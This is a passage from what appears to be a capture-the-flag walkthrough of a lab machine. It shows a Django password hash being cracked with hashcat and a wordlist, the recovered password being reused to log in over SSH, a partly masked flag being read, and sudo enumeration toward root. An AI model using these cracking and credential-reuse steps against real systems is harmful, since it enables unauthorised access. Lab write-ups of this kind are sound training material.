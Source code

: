 I already have the password for jacob, but karl is one of the users on the box!

### Crack Hashes

The hash for karl matches the format of [Hashcat mode](https://hashcat.net/wiki/doku.php?id=example_hashes) 10000, “Django (PBKDF2-SHA256)”. It cracks in about a minute giving a password of “insaneclownposse”:

```

$ hashcat -m 10000 karl.hash /usr/share/wordlists/rockyou.txt 
...[snip]...
pbkdf2_sha256$12000$wP0L4ePlxSjD$TTeyAB7uJ9uQprnr+mgRb8ZL8othIs32aGmqahx1rGI=:insaneclownposse

```

### SSH

That password actually works for karl over SSH:

```

oxdf@parrot$ sshpass -p insaneclownposse ssh karl@10.10.11.103
...[snip]...
karl@developer:~$

```

And I can get the user flag:

```

karl@developer:~$ cat user.txt
700c0e85************************

```

## Shell as root

### Enumeration

karl can run a binary named `authenticator` as root with `sudo`:

```

karl@developer:~$ sudo -l
[sudo] password for karl: 
Matching Defaults entries for karl on developer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karl may run the following commands on developer:
    (ALL : ALL) /root/.auth/authenticator

```
